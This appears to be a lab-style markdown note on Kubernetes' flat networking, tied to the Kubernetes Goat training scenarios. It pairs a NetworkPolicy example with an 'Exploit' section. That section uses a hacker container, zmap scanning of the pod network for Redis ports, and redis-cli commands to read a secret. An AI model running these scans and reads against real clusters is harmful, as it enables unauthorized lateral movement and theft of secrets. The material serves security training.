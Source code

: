 # K07:  Missing Network Segmentation Controls

## Kubernetes namespaces bypass

Most people assume that resources in Kubernetes namespaces are secure and not able to access each other. Wrong!

By default, Kubernetes comes with flat networking schema and if we need to have segmentation then we have to create them by creating boundaries like Network Security Policies. This vournability could lead to critical resources being exposed internally.

## Secure Network Boundaries using NSP

```shell
# Create pod and svc
kubectl run --image=nginx website --labels app=website --expose --port 80

# Call service from different pod on the same network
kubectl run --rm -it --image=alpine temp -- ash
wget -qO- --timeout=1 http://website

# Deny ingress from podSelector
kubectl apply -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: website
spec:
  podSelector:
    matchLabels:
      app: website
  ingress: []
EOF

kubectl run --rm -it --image=alpine temp -- sh
wget -qO- --timeout=1 http://website

# Clean up
kubectl delete pod,service,networkpolicy website
```

## Exploit

**Note** this example often results with no IP returned!

In this scenario, you will access resource in other namespaces.

```shell
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh

# Obtain MAC address of interfece eth0
ifconfig | grep eth0 | awk '{print $1 "\n" $5}' && ip -f inet addr show eth0 | awk '/inet / {print $2}'

# Get IPs of pods having redis port open
rm /etc/zmap/zmap.conf
zmap --target-port 6379 --output-file results.csv 10.244.120.78/16
zmap --target-port 6379 --output-file results.csv --interface eth0 --gateway-mac 7E:90:BA:00:9C:A8 10.244.120.78/16
cat results.csv | sort

# Connect to Redis DB
redis-cli -h IP

# Get secret
IP:6379>keys *
IP:6379>GET SECRETSTUFF
```

## Links

- [Kubernetes namespaces bypass](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-11/kubernetes-namespaces-bypass-from-kubernetes-cluster-pod/welcome)
- [Secure Network Boundaries using NSP](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-20/secure-kubernetes-using-network-security-policy/welcome)
